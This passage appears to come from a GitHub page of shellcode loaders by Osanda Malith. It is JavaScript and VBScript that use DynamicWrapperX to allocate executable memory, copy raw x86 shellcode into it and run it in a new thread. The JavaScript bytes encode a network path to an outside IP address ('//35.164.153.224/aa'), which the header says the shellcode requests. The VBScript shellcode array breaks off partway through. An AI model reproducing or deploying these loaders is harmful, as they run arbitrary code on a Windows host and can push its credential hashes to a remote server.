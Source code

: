 ```javascript
0x0c, 0x30, 0x8b, 0x44, 0x33, 0x1c, 0x8d, 0x04, 0x88, 0x8b, 0x04, 0x30, 0x03, 0xc6, 0xeb, 0xdf, 0x21, 0x05, 0x05, 0x05,
0x50, 0x05, 0x05, 0x05, 0x6b, 0x65, 0x72, 0x6e, 0x65, 0x6c, 0x33, 0x32, 0x2e, 0x64, 0x6c, 0x6c, 0x05, 0x2f, 0x2f, 0x33,
0x35, 0x2e, 0x31, 0x36, 0x34, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x32, 0x32, 0x34, 0x2f, 0x61, 0x61, 0x05];

var scLocation = DX.VirtualAlloc(0, sc.length, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
for(var i = 0; i < sc.length; i++) DX.NumPut(sc[i],scLocation,i);
var thread = DX.CreateThread(0,0,scLocation,0,0);
```

[https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.js](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.js)

#### VBScript

```vba
' Author : Osanda Malith Jayathissa (@OsandaMalith)
' Title: Shellcode to request a non-existing network path
' Website: https://osandamalith.com
' Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
' Based on subTee's JS: https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04

Set DX = CreateObject("DynamicWrapperX")
DX.Register "kernel32.dll", "VirtualAlloc", "i=luuu", "r=u"
DX.Register "kernel32.dll","CreateThread","i=uullu","r=u"
DX.Register "kernel32.dll", "WaitForSingleObject", "i=uu", "r=u"

Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40

shellcode = Array( _
&He8, &Hff, &Hff, &Hff, &Hff, &Hc0, &H5f, &Hb9, &H55, &H03, &H02, &H02, &H81, &Hf1, &H02, &H02, &H02, &H02, &H83, &Hc7, _
&H1d, &H33, &Hf6, &Hfc, &H8a, &H07, &H3c, &H05, &H0f, &H44, &Hc6, &Haa, &He2, &Hf6, &He8, &H05, &H05, &H05, &H05, &H5e, _
&H8b, &Hfe, &H81, &Hc6, &H29, &H01, &H05, &H05, &Hb9, &H02, &H05, &H05, &H05, &Hfc, &Had, &H01, &H3c, &H07, &He2, &Hfa, _
&H56, &Hb9, &H8d, &H10, &Hb7, &Hf8, &He8, &H5f, &H05, &H05, &H05, &H68, &H31, &H01, &H05, &H05, &Hff, &Hd0, &Hb9, &He0, _ 
&H53, &H31, &H4b, &He8, &H4e, &H05, &H05, &H05, &Hb9, &Hac, &Hd5, &Haa, &H88, &H8b, &Hf0, &He8, &H42, &H05, &H05, &H05, _
&H6a, &H05, &H68, &H80, &H05, &H05, &H05, &H6a, &H03, &H6a, &H05, &H6a, &H01, &H68, &H05, &H05, &H05, &H80, &H68, &H3e, _
&H01, &H05, &H05, &Hff, &Hd0, &H6a, &H05, &Hff, &Hd6, &H33, &Hc0, &H5e, &Hc3, &H33, &Hd2, &Heb, &H10, &Hc1, &Hca, &H0d, _
&H3c, &H61, &H0f, &Hbe, &Hc0, &H7c, &H03, &H83, &He8, &H20, &H03, &Hd0, &H41, &H8a, &H01, &H84, &Hc0, &H75, &Hea, &H8b, _
&Hc2, &Hc3, &H8d, &H41, &Hf8, &Hc3, &H55, &H8b, &Hec, &H83, &Hec, &H14, &H53, &H56, &H57, &H89, &H4d, &Hf4, &H64, &Ha1, _
&H30, &H05, &H05, &H05, &H89, &H45, &Hfc, &H8b, &H45, &Hfc, &H8b, &H40, &H0c, &H8b, &H40, &H14, &H89, &H45, &Hec, &H8b, _
&Hf8, &H8b, &Hcf, &He8, &Hd2, &Hff, &Hff, &Hff, &H8b, &H70, &H18, &H8b, &H3f, &H85, &Hf6, &H74, &H4f, &H8b, &H46, &H3c, _ 
&H8b, &H5c, &H30, &H78, &H85, &Hdb, &H74, &H44, &H8b, &H4c, &H33, &H0c, &H03, &Hce, &He8, &H96, &Hff, &Hff, &Hff, &H8b, _
&H4c, &H33, &H20, &H89, &H45, &Hf8, &H33, &Hc0, &H03, &Hce, &H89, &H4d, &Hf0, &H89, &H45, &Hfc, &H39, &H44, &H33, &H18, _
&H76, &H22, &H8b, &H0c, &H81, &H03, &Hce, &He8, &H75, &Hff, &Hff, &Hff, &H03, &H45, &Hf8, &H39, &H45, &Hf4, &H74, &H1c, _
&H8b, &H45, &Hfc, &H8b, &H4d, &Hf0, &H40, &H89, &H45, &Hfc, &H3b, &H44, &H33, &H18, &H72, &Hde, &H3b, &H7d, &Hec, &H75, _
```